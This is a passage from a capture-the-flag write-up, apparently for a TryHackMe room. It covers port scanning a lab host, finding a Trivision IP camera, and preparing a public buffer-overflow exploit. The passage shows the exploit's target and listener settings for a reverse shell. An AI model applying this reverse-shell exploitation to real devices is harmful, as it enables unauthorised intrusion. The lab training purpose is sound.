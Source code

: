 ```console
Starting Nmap 7.60 ( https://nmap.org ) at 2024-01-15 09:02 GMT
Nmap scan report for ip-10-10-200-123.eu-west-1.compute.internal (10.10.106.239)
Host is up (0.00029s latency).

PORT      STATE SERVICE
22/tcp    open  ssh
23/tcp    open  telnet
8080/tcp  open  http-proxy
50628/tcp open  unknown
MAC Address: 02:5F:E1:66:EA:0B (Unknown)
```

From the scan results we can see four open ports:
  -  Port `22` for SHH
  - Port `23` for Telnet
  - Port `8080` (most probably a website)
  - Port `50628` - an unusual port number

Connecting via SSH is not possible and we get a `Permission denied (publickey)` error.   Attempting to connect via Telnet successfully establishes a connection which is immediately terminated by the host, and since we don't know anything about port `50628` so far, we're going to ignore it for the time being.

This leaves us with port `8080` and we can just open a browser and navigate to `http://10.10.106.239:8080/` to bring up a website with an angry-looking elf:

![Angry looking elf](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/5bd4056d-ed64-4416-9d99-a81154c8fa3e)

This must be the **"internal-only web application"** that is our main target.  But as the name implies - it appears to only be accessible from the internal network, so we need to figure out a way in first.

Let's have a look at port `50628` next - maybe we can access it through the browser too by navigating to `http://10.10.106.239:50628` ?  Yup, it brings up a login page for a **Trivision NC-227WF HD 720P** IP Network camera:

![Trivision Dashboard](https://github.com/beta-j/TryHackMe-Rooms/assets/60655500/13c1fc4f-a870-44b9-80a0-f95748667583)

#  

### Part 2 - Modifying Assembly Code and Obtaining Reverse Shell ###

Some Google searching for `Trivision NC-227WF Exploit` quickly leads us to the following article: [(https://no-sec.net/arm-x-challenge-breaking-the-webs/)](https://no-sec.net/arm-x-challenge-breaking-the-webs/) and just by looking at the title it is evident that we're dealing with an ARM processor architecture (and the `ARMageddon` in the challenge title is making more sense now).

The article explains how a buffer overflow vulnerability in the Trivision camera firmware can be exploited to establish a reverse shell connection.  It conveniently also provides [assembly code instructions](code/Snowy_ARMageddon/original_assembly_instructions.asm) and a [python script](code/Snowy_ARMageddon/original_exploit.py) to exploit this.

The Python code includes the `HOST`, `LHOST` variables that need to be updated with the Camera IP address and Localhost IP address respectively. 
```python
HOST = '10.10.106.239'
PORT = 50628
LHOST = [10,10,52,204]
LPORT = 4444
```
